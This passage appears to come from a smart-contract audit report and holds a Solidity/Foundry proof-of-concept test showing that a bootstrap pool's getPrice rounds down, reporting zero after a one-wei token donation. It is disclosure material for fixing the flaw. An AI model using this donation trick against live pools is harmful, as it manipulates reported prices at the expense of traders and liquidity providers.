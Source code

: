 ## Proof of Concept
Add this inside `BootstrapPoolTest.sol` and run to see it pass with the following output. This PoC shows how a price of zero is reported. However, even under normal protocol operations, under-reporting by `1 wei` can continually happen. To witness that behaviour please change 1️⃣ below to `factory.setInitialPrice(5.999195e6)`. You will see in the output logs that the price reported is `5.999194e6` i.e. less by `1 wei`:
```js
    function test_getPrice_bug() public {
        // Set up the test environment
        setUpFraxtal(12_918_968);
        address bob = makeAddr("Bob"); 
        
        factory = new AgentFactory(currencyToken, 0);
        factory.setAgentBytecode(type(Agent).creationCode);
        factory.setGovenerBytecode(type(TokenGovernor).creationCode);
        factory.setLiquidityManagerBytecode(type(LiquidityManager).creationCode);
        factory.setTargetCCYLiquidity(100000e18);
        factory.setTradingFee(100); 

        // @audit-info : Change this to `factory.setInitialPrice(5.999195e6)` if you want to see the second example
1️⃣-->  factory.setInitialPrice(0.000001e6); // 1 USDC = 1_000_000 AITokens i.e. 1e6 wei of USDC = 1_000_000e18 wei of AITokens

        // Create agent and bootstrap pool
        agent = factory.createAgent("VulnTest", "VULN", "https://example.com", 0);
        token = agent.token();
        LiquidityManager manager = LiquidityManager(factory.agentManager(address(agent)));
        bootstrapPool = manager.bootstrapPool();

        (uint256 reserveCurrency, uint256 reserveAgent) = bootstrapPool.getReserves();
        // Log initial state
        console.log("\nInitial State:");
        emit log_named_decimal_uint("Initial Currency Reserve:", reserveCurrency, 6);
        emit log_named_decimal_uint("Initial Agent Reserve:", reserveAgent, 18);
        emit log_named_decimal_uint("Phantom Amount:", bootstrapPool.phantomAmount(), 6);
        emit log_named_decimal_uint("Initial Price (in USDC terms):", bootstrapPool.getPrice(), 6);
        assertGt(bootstrapPool.getPrice(), 0);

        // Deal some agent tokens to Bob
        deal(address(token), bob, 1); 
        vm.prank(bob);
        // donate agentTokens (simulate a price swing causing change in reserve ratios)
        token.transfer(address(bootstrapPool), 1);

        // Log final state
        console.log("\nFinal State:");
        (reserveCurrency, reserveAgent) = bootstrapPool.getReserves();
        emit log_named_decimal_uint("Final Currency Reserve:", reserveCurrency, 6);
        emit log_named_decimal_uint("Final Agent Reserve:", reserveAgent, 18);
        emit log_named_decimal_uint("Final Price (in USDC terms):", bootstrapPool.getPrice(), 6);
        assertEq(bootstrapPool.getPrice(), 0);
    }
```
<br>
